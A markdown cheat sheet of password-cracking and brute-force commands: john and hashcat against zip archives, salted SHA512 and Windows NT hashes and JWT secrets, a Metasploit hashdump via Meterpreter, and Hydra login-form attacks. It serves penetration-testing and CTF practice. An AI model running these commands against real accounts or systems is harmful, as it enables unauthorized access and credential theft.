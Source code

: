 # Cracking
## john
- Crack password protected zip archives
```bash
zip2john archive.zip > archive.hash
john archive.hash --fork=4 -w=/path/to/wordlist
```

- Crack salted SHA512 hash
```bash
# hashfile format: hash$salt
john --format='dynamic=sha512($p.$s)' --wordlist=/path/to/wordlist ./hashfile
```

- Crack Windows hash
```sh
# Fist, get Windows hash
# Format: User:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## hashcat
### cheat sheet
#### attack modes
```bash
# dictionary attack
-a0
# combinator attack
-a1
# bruteforce / mask attack
-a3
# hybrid wordlist+mask
-a6
# hybrid mask+wordlist
-a7
```
#### hash types
```bash
# jwt
-m 16500
```
#### mask attack
##### Builtin charset
?l = abcdefghijklmnopqrstuvwxyz
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
?d = 0123456789
?h = 0123456789abcdef
?H = 0123456789ABCDEF
?s = «space»!"#$%&'()*
?a = ?l?u?d?s
?b = 0x00 - 0xff

```bash
# define custom charset
-1 ?h?H?d
# define mask
?1?1?1
# command
-a3 -1 ?h?H?d ?1?1?1
```
### HS256 JWT secret
```bash
# mask attack 4-12 char [a-z0-9]
hashcat -a 3 -m 16500 jwt.txt ?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld -i --increment-min=4

# dictionary attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt

# distionary rule-based attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule
```

## Metasploit
- Crack previously dumped Windows hash
```sh
# First, open and background a Meterpreter session
# Store hash dump into database, then:
use post/windows/gather/hashdump
set session X
use auxiliary/analyze/crack_windows
run
```


# Brute forcing
## Hydra
- Bruteforce login/password combination
```
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt <hostname> http-post-form "/path/to/login:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```
- Find password for a known user
```
hydra -P /usr/share/wordlists/rockyou.txt -l admin www.domain.tld http-post-form "/path/to/login.php:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```

## Links
___
### Guides
- https://github.com/frizb/Hydra-Cheatsheet
- https://github.com/DidierStevens/DidierStevensSuite/blob/master/xor-kpa.py

### Writeups
- 